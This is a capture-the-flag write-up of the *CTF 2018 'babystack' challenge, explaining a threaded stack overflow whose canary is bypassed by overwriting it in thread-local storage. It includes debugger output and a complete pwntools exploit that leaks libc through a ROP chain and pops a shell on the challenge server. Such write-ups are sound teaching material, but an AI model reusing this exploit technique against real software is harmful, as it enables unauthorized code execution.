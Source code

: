 ```yaml
---
title:  Star Ctf 2018 Babystack
updated: 2018-05-01 16:10:33
tags: pwn
---
```




- [babystack](#orgdffcbc7)



<a id="orgdffcbc7"></a>

# babystack

    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

The challenge creates a thread and calls a function start<sub>routine</sub>

```c
void *__fastcall start_routine(void *a1)
{
  void *result; // rax@2
  __int64 v2; // rcx@4
  unsigned __int64 v3; // [sp+8h] [bp-1018h]@1
  char s; // [sp+10h] [bp-1010h]@1
  __int64 v5; // [sp+1018h] [bp-8h]@1

  v5 = *MK_FP(__FS__, 40LL);
  memset(&s, 0, 0x1000uLL);
  puts("Welcome to babystack 2018!");
  puts("How many bytes do you want to send?");
  v3 = get_int();
  if ( v3 <= 0x10000 )
  {
    get_inp(0, &s, v3);
    puts("It's time to say goodbye.");
    result = 0LL;
  }
  else
  {
    puts("You are greedy!");
    result = 0LL;
  }
  v2 = *MK_FP(__FS__, 40LL) ^ v5;
  return result;
}
```

Well there is a huge overflow in the stack . During the ctf giving a very large input makes the program segfault inside the get<sub>inp</sub> function which dereference a location on the stack and it points to the errno variable but our overflow overwrite this pointer and causes trouble , I just found the offset and gave it a pointer to BS's which will be allways null , thus the read will terminate without any error . Next is to bypass the canary

As the function is called on a different thread , the thread will have a new stack and the canary is placed on the thread local storage structure. and this structure will be on top of the stack which gives us a opportunity to overflow in this case .

```c
  typedef struct
  {
    void *tcb;        /* Pointer to the TCB.  Not necessarily the
                 thread descriptor used by libpthread.  */
    dtv_t *dtv;
    void *self;       /* Pointer to the thread descriptor.  */
    int multiple_threads;
    int gscope_flag;
    uintptr_t sysinfo;
    uintptr_t stack_guard;
    uintptr_t pointer_guard;
    ...
  } tcbhead_t;
```

the fs segment register will always point to this . As it turns out i could not view the address which fs points with gdb , the `arch_prctl` syscall is responsible of setting address to these registers , by viewing the the argument of this syscall we can find the address of this structure .

    pwndbg> catch syscall 158
    Catchpoint 1 (syscall 'arch_prctl' [158])

this will stop the execution after the syscall has called

```nasm
pwndbg> reg
*RAX  0xffffffffffffffda
*RBX  0x1
*RCX  0x7ffff7dd9bb8 (init_tls+280) ◂— test   eax, eax
*RDX  0x7ffff7fc5010 ◂— 0x0
*RDI  0x1002
*RSI  0x7ffff7fc4700 ◂— 0x7ffff7fc4700
*R8   0xffffffffffffffff
 R9   0x0
*R10  0x22
*R11  0x206
*R12  0x22c3d0dcdbfa
*R13  0x10
 R14  0x0
*R15  0x7ffff7ffe170 ◂— 0x0
*RBP  0x7fffffffdbd0 —▸ 0x400040 ◂— 0x500000006
*RSP  0x7fffffffd9c0 ◂— 0x0
*RIP  0x7ffff7dd9bb8 (init_tls+280) ◂— test   eax, eax
pwndbg> x/10gx 0x7ffff7fc4700
0x7ffff7fc4700: 0x00007ffff7fc4700      0x00007ffff7fc5010
0x7ffff7fc4710: 0x00007ffff7fc4700      0x0000000000000000
0x7ffff7fc4720: 0x0000000000000000      0x0000000000000000
0x7ffff7fc4730: 0x0000000000000000      0x0000000000000000
0x7ffff7fc4740: 0x0000000000000000      0x0000000000000000
```

this is the address of the tls . the values are not populated yet .

```nasm
0x004009f2      64488b042528.  mov rax, qword fs:[0x28]    ; [0x28:8]=-1 ; '(' ; 40
0x004009fb      488945f8       mov qword [rbp - 8], rax
```

this is the code which copy the canary to the stack , so fs + 0x28 gives us the canary .

```nasm
pwndbg> x/4gx 0x7ffff7fc4700 + 0x28
0x7ffff7fc4728: 0x4339f83af5815e00      0xe535fd48502579dc
0x7ffff7fc4738: 0x0000000000000000      0x0000000000000000
```

now we can calculate the offset of the canary from the read buffer and overwrite it with a known values , then we can use the usual ROP techniques to get the shell .

```python

import hashlib,string

def p64(hex):
    from struct import pack
    return pack('<' + 'Q' * len(hex), *hex)
context.arch = 'amd64'
context.bits = 64
if True:
    context.log_level = "debug"
    io = remote ("47.91.226.78", 10005)
else:
    context.log_level = "debug"
    context.terminal = ['tmux', 'splitw', '-h']
    env = { 'LD_PRELOAD' : './libc.so.6-56d992a0342a67a887b8dcaae381d2cc51205253'}
    io = process('bs',env=env )
    # gdb.attach(io,'''
    # b * 0x0400A1A
    # b * 0x00400A9C
    # ''')

def send(size,inp):
        io.recvuntil("How many bytes do you want to send?\n")
        io.sendline(str(size))
        io.send(str(inp))
def calc():
    leak=io.recvuntil('\n').strip()
    print leak
    l=leak.split(" == ")
    l[0]=(l[0][12:]).replace(')','')
    print l
    s=0
    for i in string.printable:
        for j in string.printable:
            for k in string.printable:
                for m in string.printable:
                    if hashlib.sha256(i+j+k+m+l[0]).hexdigest() == l[1]:
                        print i+j+k+m
                        io.sendlineafter("Give me xxxx:",i+j+k+m)
                        return
                    s=s+1
                    if s%10000==0:
                        print s

# send(0x10000,p64([0x602f00]) * ( 0x10000 / 8 ))
# 0x00400c03: pop rdi; ret;
# 0x00400c01: pop rsi; pop r15; ret;

calc()

payload = "A" * 0x1008 + "\x00" * 0x8
payload += p64([0x602d00,
                0x00400c03,
                0x601fb0,
                0x004007C0,
                0x00400c03,
                0x0,
                0x00400c01,
                0x602d00,
                0x0,
                0x004007E0,
                0x00400b90,
])
                
payload = payload.ljust( 6080 , "\x00" ) + p64([0x602f00])
payload = payload.ljust(0x1800,"\x00")
send(len(payload) , payload)


io.recvline()
libc_leak = u64(io.recvline()[:-1].ljust(0x8,"\x00"))
libc = libc_leak - 0x0006f690
magic = libc + 0xf1147

log.info("Libc Leak : " + hex(libc))


payload = p64([0x602d00,
               magic
])
               
io.sendline(payload)

io.interactive()
```


